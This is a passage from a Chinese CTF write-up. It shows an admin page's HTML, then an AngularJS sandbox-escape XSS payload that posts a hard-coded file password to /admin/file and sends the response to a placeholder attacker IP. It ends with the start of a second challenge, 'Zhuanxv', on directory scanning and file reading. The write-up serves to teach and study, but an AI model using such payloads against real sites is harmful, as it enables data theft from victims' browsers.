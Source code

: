 ```
admin/suggest

&lt;div class="container"&gt;
  &lt;h3&gt;留言&lt;/h3&gt;
  &lt;div ng-app&gt;
  &lt;ol&gt;
  &lt;li&gt;&lt;/li&gt;
  &lt;/ol&gt;
&lt;/div&gt;
&lt;/div&gt;

  &lt;!-- Bootstrap core JavaScript
================================================== --&gt;
&lt;!-- Placed at the end of the document so the pages load faster --&gt;
&lt;script src="https://cdn.bootcss.com/jquery/1.12.4/jquery.min.js"&gt;&lt;/script&gt;
&lt;script src="https://cdn.bootcss.com/bootstrap/3.3.7/js/bootstrap.min.js"&gt;&lt;/script&gt;
&lt;!-- IE10 viewport hack for Surface/desktop Windows 8 bug --&gt;
&lt;script src="js/ie10-viewport-bug-workaround.js"&gt;&lt;/script&gt;

&lt;/body&gt;
&lt;/html&gt;
```

接下来东西都有了，直接访问加密的那个文件/admin/file

```
`{``{`'a'.constructor.prototype.charAt=[].join;$eval('x=1`}` `}` `}`;eval(atob("$.post('/admin/file',`{`'filepasswd':'HGf^&amp;39NsslUIf^23'`}`,function(data)`{`(new Image()).src="你的ip/?info="+escape(data);`}`);"));//');`}``}`
```

### <a class="reference-link" name="Zhuanxv"></a>Zhuanxv

你只是在扫描目标端口的时候发现了一个开放的web服务

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-5ea903ef3af549cb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)<br>
扫描一波目录，可以扫到list，然后访问可以抓到怎么一个包<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-62a34b9db348c757.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)猜测可能是文件读取

同时在github上可以找到源码，有用的信息如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-f2b1392b42051c92.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-220ffce4b64e6a44.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-465d42df9aacd5b6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
